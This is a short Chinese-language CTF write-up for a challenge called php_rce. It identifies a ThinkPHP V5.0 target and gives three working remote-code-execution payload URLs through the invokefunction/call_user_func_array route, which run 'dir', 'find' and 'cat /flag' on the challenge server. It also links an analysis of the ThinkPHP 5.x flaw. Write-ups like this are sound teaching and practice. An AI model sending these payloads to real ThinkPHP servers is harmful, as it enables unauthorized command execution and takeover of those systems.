 # php_rce
## 题目描述
暂无  

## 思路
点开题目链接：  
http://220.249.52.133:42857  
![avatar](./picture/php_rce_1.png)  

根据页面，应该是 ThinkPHP V5.0 的漏洞。搜了一下，果然有。根据漏洞构造一个 payload，来查看目录下都有什么文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir  
![avatar](./picture/php_rce_2.png)  

似乎没有想要的东西，再构造一个，看看有没有和 flag 相关的文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "*flag"  
![avatar](./picture/php_rcw_3.png)  

不错，直接查看这个文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag  
![avatar](./picture/php_rcw_4.png)  
得到 flag。  

## 相关链接
ThinkPHP 5.x远程命令执行漏洞分析与复现：  
https://www.cnblogs.com/backlion/p/10106676.html
